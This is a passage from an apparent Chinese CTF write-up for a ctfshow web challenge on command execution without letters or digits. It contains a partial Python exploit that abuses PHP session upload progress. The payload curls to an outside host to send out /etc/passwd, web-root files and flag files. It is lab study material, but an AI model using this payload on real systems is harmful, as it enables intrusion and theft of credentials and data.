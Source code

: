 ![](/medias/ctfshow-web/17.png)



### 无字母数字命令执行



这道题是命令执行，无字母、数字，无回显，尝试外带或者反弹shell，在上传写入webshell时，文件是空的比较奇怪

使用了linux下 `. file`执行文件内容的特性

由于不确定seesion文件路径

```python
import requests
import threading
import time
import signal
import sys

# 靶机链接
url = 'http://a9dbdc84-611d-455a-9f9e-c7b8dc599cdf.challenge.ctf.show/'
shell_url = url + "44.txt"
sessionid = 'cnmusa'

data = {
    'PHP_SESSION_UPLOAD_PROGRESS': 'ls > 44.txt;curl -X POST http://219tzymz.eyes.sh -d "1=`cat /etc/passwd;cat /var/www/html/*;cat /f*`"',
}

file = {
    'file': sessionid
}

cookies = {
    'PHPSESSID': sessionid
}

# 常见 session 文件路径列表
# session_paths = [
#     f"/var/lib/php/sess_{sessionid}",
#     f"/var/lib/php/sessions/sess_{sessionid}",
#     f"/tmp/sess_{sessionid}",
```